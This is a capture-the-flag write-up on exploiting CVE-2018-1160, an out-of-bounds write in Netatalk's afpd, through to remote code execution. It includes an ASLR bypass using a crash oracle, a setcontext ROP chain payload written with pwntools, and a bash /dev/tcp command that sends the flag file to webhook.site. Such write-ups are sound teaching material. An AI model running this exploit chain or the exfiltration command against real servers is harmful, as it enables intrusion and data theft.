

## 1. Introduction: Reconnaissance
I began my investigation with a specific target: **Netatalk**, an open-source implementation of the Apple Filing Protocol (AFP). The challenge environment included the `afpd` binary and a configuration file `afp.conf`.

A quick search for known vulnerabilities in Netatalk directed my attention to **CVE-2018-1160**, a critical Out-of-Bounds (OOB) Write vulnerability affecting versions prior to 3.1.12.

By auditing the source code for Netatalk 3.1.11, I identified the vulnerable logic in `dsi_opensess.c`:

```c
/* dsi_opensess.c */
case DSIOPT_ATTNQUANT:
  memcpy(&dsi->attn_quantum, dsi->commands + i + 1, dsi->commands[i]);
```

The code improperly trusts `dsi->commands[i]`—a 1-byte length value received directly from the network packet—as the size for the `memcpy` operation. Since the destination buffer `dsi->attn_quantum` is only a 4-byte integer, providing a length greater than 4 results in an OOB write into the subsequent fields of the `DSI` structure.

## 2. Environment Setup: Docker
To ensure reliable exploit reproduction, I constructed an environment matching the challenge specification (Ubuntu 18.04). I utilized `Dockerfile` and `docker-compose.yml` to manage the services.

**The First Hurdle:**
The `afpd` daemon initially failed to start, reporting a missing dependency: `libatalk.so.18`. I resolved this by explicitly including the library path in my `LD_LIBRARY_PATH` environment variable within the Docker configuration and the `start.sh` script.

```dockerfile
ENV LD_LIBRARY_PATH=/home/kali/cve-2018-1160/netatalk:$LD_LIBRARY_PATH
```

## 3. Initial Prototyping: The Endianness Trap
I developed a Python exploit using the `pwntools` framework to craft and send a malicious DSI OpenSession packet. My immediate goal was to trigger the OOB write and observe the impact on the process.

**The Initial Script:**
```python
header = p8(0) + p8(4) + p16(1) + p32(0) + p32(len(payload)) + p32(0)
r.send(header + payload)
```

**The Mystery:**
After attaching GDB to the `afpd` process and setting a breakpoint on `dsi_opensession`, I ran the exploit. However, the breakpoint was never hit, and the process simply exited with a non-zero status code.

**Debugging the Flow:**
I traced the execution path: `main` -> `dsi_getsession` -> `dsi_tcp_open`. By placing a breakpoint earlier in the flow at `dsi_tcp_open`, I discovered that the server was rejecting the packet during the initial header parsing.

**The Root Cause: Endianness**
The DSI protocol strictly adheres to **Network Byte Order (Big Endian)**. The exploit was running on an `amd64` (Little Endian) architecture. By using the default `p32()` (Little Endian), I was inadvertently sending a data length field that the server interpreted as **~800 MB** instead of the intended ~50 bytes. Consequently, the server hung waiting for data and eventually timed out.

**The Fix:**
I modified the script to specify Big Endian for the header fields:
```python
p32(len(payload), endian='big')
```
Correcting the endianness allowed me to successfully hit the breakpoint at `dsi_opensession`.

## 4. Vulnerability Deep Dive
To move beyond a simple crash, I conducted a rigorous analysis of the Data Stream Interface (DSI) session handling. By mapping the underlying C structures and tracing the packet parsing logic, I pinpointed the exact mechanism of the OOB write.

### 4.1. The Data Stream Interface (DSI) Structures
Two primary structures govern the initial session negotiation: the packet header and the internal session state.

**1. `struct dsi_block` (The Packet Header):**
This 16-byte structure defines the format of every DSI request.
```c
struct dsi_block {
    uint8_t  dsi_flags;       // Packet type (request/reply)
    uint8_t  dsi_command;     // Specific DSI function
    uint16_t dsi_requestID;   // unique ID for request tracking
    union {
        uint32_t dsi_code;    // Return code or error status
        uint32_t dsi_doff;    // Data offset for certain commands
    } dsi_data;
    uint32_t dsi_len;         // Total length of the payload
    uint32_t dsi_reserved;    // Reserved for future use
};
```

**2. `struct DSI` (Session Management):**
The `DSI` structure maintains the complete internal state of any given AFP session. Our primary target within this structure is the `commands` pointer, which we can reach by overflowing from the `attn_quantum` field.

```c
typedef struct DSI {
    ...
    struct dsi_block header; // The last received request header
    ...
    uint32_t attn_quantum;   // Destination of the OOB Write
    uint32_t datasize;
    uint32_t server_quantum;
    uint16_t serverID;
    uint16_t clientID;
    uint8_t  *commands;      // MISSION CRITICAL: Receiver buffer pointer
    uint8_t  data[DSI_DATASIZ];
    ...
} DSI;
```

### 4.2. Exploiting the Boundary Violation
The vulnerability manifests in `dsi_opensession()` within `dsi_opensess.c`. During the `DSIFUNC_OPEN` handshake, the server iterates through options provided in the command payload.

```c
void dsi_opensession(DSI *dsi) {
    uint32_t i = 0;
    ...
    while (i < dsi->cmdlen) {
        switch (dsi->commands[i++]) {
            case DSIOPT_ATTNQUANT: // Option Type: 0x01
                /* VULNERABILITY: Length byte is trusted without validation */
                memcpy(&dsi->attn_quantum, dsi->commands + i + 1, dsi->commands[i]);
                dsi->attn_quantum = ntohl(dsi->attn_quantum);
                break;
            ...
        }
    }
}
```

The `memcpy` uses `dsi->commands[i]` (a user-controlled byte) as the copy length. Since `attn_quantum` is a fixed 4-byte field, any value greater than 4 allows us to spill over into the subsequent `DSI` fields.

### 4.3. Verification: Controlling the Pointer
I verified this primitive by crafting a payload designed to overwrite `dsi->commands` with the recognizable value `0xdeadbeef`. Upon execution, the server crashed immediately.

**Debugger Analysis:**
```
(gdb) x/32wx $rcx
0xdeadbeef:     Cannot access memory at address 0xdeadbeef
```
As expected, the `$rcx` register—which the server uses to store the `dsi->commands` pointer—was populated with `0xdeadbeef`. The crash occurred at `movzbl (%rcx,%r9,1),%eax` when the program attempted to read the next option byte from this invalid memory address.

**Conclusion:**
I successfully achieved a **Restricted Arbitrary Write**. By precisely controlling the `commands` pointer, we can dictate where the application looks for its next set of instructions, setting the stage for more advanced exploitation.

## 5. Bypassing ASLR: The Blind Pointer Oracle (BPO)
Bypassing Address Space Layout Randomization (ASLR) typically requires a memory leak primitive. However, when an application only provides binary feedback (crash vs. no crash), we can employ a "Blind Pointer Oracle" technique.

### 5.1. The Oracle Theory
The `dsi_opensession` function attempts to read the next command from the address stored in `dsi->commands`. We can exploit this behavior:
- If we overwrite `dsi->commands` with an **invalid** address, the server crashes.
- If we overwrite it with its **exact original value**, the server remains stable and responsive.

By overwriting the pointer byte-by-byte and observing the server's stability, we can leak the absolute address of the session buffer.

### 5.2. Execution: The Byte-by-Byte Leak
I iterated through each of the 8 bytes of the `commands` pointer:
1.  Guess Byte 0 (0-255).
2.  Send the OOB write with the guessed byte.
3.  If the server responds, our guess was correct.
4.  If the server crashes, we try the next value.

**Result:** Through this iterative process, I recovered the absolute memory address of the heap-allocated buffer: `0x7fb418097000`.

### 5.3. Bridging to Libc: The Offset Brute Force
Leaking a heap address is only half the battle; we need the base address of `libc` to achieve RCE. While ASLR shifts the absolute positions of memory regions, the **relative offset** between the heap (mmap region) and the `libc` base often remains constant within identical environments.

I implemented a second, highly efficient brute force stage:
1.  Establish a search range (e.g., `0x0` to `0xffff000`) with a page-aligned step (`0x1000`).
2.  Calculate a candidate base: `potential_libc_base = leaked_addr - offset`.
3.  Test the offset by attempting to trigger a low-risk function call.

**Advantage:** On cloud-hosted targets like `pwnable.tw`, these offsets are remarkably stable. I was able to identify the correct `libc` base in under 40 seconds.

## 6. Achieving RCE: The Grand Finale
With the absolute address of the buffer and the `libc` base address in hand, I proceeded to gain Remote Code Execution.

### 6.1. Strategy: The `setcontext` ROP Chain
Given the presence of NX (No-Execute) protections, I could not execute shellcode directly. Instead, I opted to overwrite the `__free_hook` in `libc`. By redirecting `__free_hook` to a specialized ROP chain, we can gain full control over the processor state when the application calls `free()`.

I utilized the **`setcontext + 53`** gadget as my primary lever. This gadget is exceptionally powerful as it allows us to populate nearly every general-purpose register from a memory region we control.

**The Chain Logic:**
1.  **`libc_dlopen_mode + 56`**: Loads the address of our controlled data into `rax`.
2.  **`fgetpos64 + 207`**: Moves `rax` to `rdi` and invokes the next stage at `[rax + 0x20]`.
3.  **`setcontext + 53`**: Uses the data pointed to by `rdi` to restore a full register state (a fake `ucontext_t`).

### 6.2. The Exfiltration Challenge
Standard reverse shells often fail when the target is behind a NAT or restrictive firewall. However, the primary reason I avoided one was simply due to not having a VPS or public IP available to catch the connection. To ensure I received the flag, I directed the server to "push" the data to a public listener.

I selected **Webhook.site** as my exfiltration target, as it provides a public endpoint that logs all incoming HTTP request bodies.

### 6.3. Technique: Raw Bash HTTP Exfiltration
In environments where common tools like `curl` or `wget` might be absent, we can leverage Bash's built-in networking capabilities. By manipulating file descriptors and the `/dev/tcp` virtual filesystem, we can transmit raw HTTP POST requests.

**The Payload Architecture:**
```bash
# 1. Open a read/write socket to the listener
exec 3<>/dev/tcp/webhook.site/80
# 2. Construct and transmit a raw POST request containing the flag
echo -e "POST /path HTTP/1.1\r\nHost: ...\r\n\r\n$(cat flag)" >&3
```

### 6.4. Constructing the Final Payload
I utilized `pwntools.SigreturnFrame()` to generate the register dump that `setcontext` requires to restore state.

```python
# 1. Target __free_hook with stage 1 (libc_dlopen_mode+56)
# 2. Prepare the fake context frame at dl_open_hook
sigframe = SigreturnFrame()
sigframe.rip = system_addr     # Target function
sigframe.rdi = free_hook + 8    # Command string pointer
sigframe.rsp = free_hook        # Controlled stack pointer

# Memory Layout:
payload = b''.ljust(0xF, b'\x00')   # Padding
payload += p64(libc_dlopen_mode_56) # Placement at __free_hook
payload += CMD.ljust(0x2bb8, b'\x00') # Command string
payload += p64(dl_open_hook + 8)    # Pivot point for the chain
payload += p64(fgetpos64_207)       # Intermediate link
payload += b'A' * 0x18
payload += p64(setcontext_53)       # Magic gadget
payload += bytes(sigframe)[0x28:]   # The ucontext structure
```

### 6.5. Execution and Flag Capture
Upon executing the final exploit, I monitored my Webhook.site dashboard. After 10 minutes or more, the server transmitted a POST request containing the flag.



## 7. Lessons Learned
The journey from vulnerability discovery to reliable RCE provided several critical technical takeaways:

1.  **Endianness is Fundamental**: In network exploitation, never assume the host architecture's byte order. The DSI protocol's use of Big Endian was the first and most critical technical hurdle.
2.  **The Power of Side-Channel Oracles**: ASLR bypass doesn't always require a direct memory leak. A simple "Crash vs. Stay-Alive" oracle, coupled with a stable heap, can be an incredibly potent tool for discovering absolute addresses.
3.  **Heap and Offset Stability**: In multi-threaded and forking environments like Netatalk, heap addresses and their relative offsets to `libc` are often remarkably consistent. This stability is the linchpin of reliable pointer redirection exploits.
4.  **Advanced Register Control**: The `setcontext + 53` gadget remains a premier choice for complex ROP chains. Its ability to restore a full register state from controlled memory simplifies what would otherwise be a much more fragmented ROP sequence.
5.  **Exfiltration Versatility**: We should always be prepared for restricted target environments. Leveraging built-in shell features like `/dev/tcp` allows for robust exfiltration even when common binary utilities are missing or blocked.
6.  **Environment Parity**: Debugging is only as effective as the environment. Matching the target's operating system and `libc` version exactly is mandatory for determining real-world offsets and gadget availability.
